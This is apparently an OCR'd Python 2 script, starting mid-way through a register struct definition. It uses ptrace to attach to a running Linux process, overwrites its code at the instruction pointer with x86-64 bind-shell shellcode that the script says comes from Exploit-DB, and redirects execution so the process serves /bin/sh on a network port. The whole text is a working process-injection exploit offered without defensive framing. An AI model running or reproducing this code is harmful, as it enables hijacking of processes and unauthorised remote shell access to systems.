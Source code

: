 ```plain
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
 
  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
